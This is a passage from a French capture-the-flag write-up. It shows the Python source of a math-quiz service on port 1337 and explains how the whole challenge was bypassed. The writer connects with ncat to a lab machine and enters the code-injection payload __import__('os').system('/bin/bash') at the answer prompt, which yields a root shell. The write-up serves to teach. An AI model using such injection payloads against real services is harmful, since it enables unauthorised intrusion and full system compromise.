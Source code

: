 ```python
        print(a,op,b)
        if op == "+":
            val = add(a,b)

        if op == "-":
            val = sub(a,b)

        if op == "/":
            val = div(a,b)

        if op == "*":
            val = multiply(a,b)

        try:
            In = int(input("> "))
        except Exception:
            print("Stop acting like a hacker for a damn minute!!")
            sys.exit(1)

        if In == val:
            continue
        else:
            print("Wrong answer")
            sys.exit(1)

    with open("/opt/1337/p0rt5", 'r') as f:
        print(f.read())


if __name__ == "__main__":
    main()
```

Et pourtant on pouvait bypasser tout le CTF :

```bash
$ ncat 192.168.242.133 1337 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.242.133:1337.
  ____                        _____ _                
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|


Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(9, '+', 7)
> __import__("os").system("/bin/bash")
id
uid=0(root) gid=0(root) groups=0(root)
```
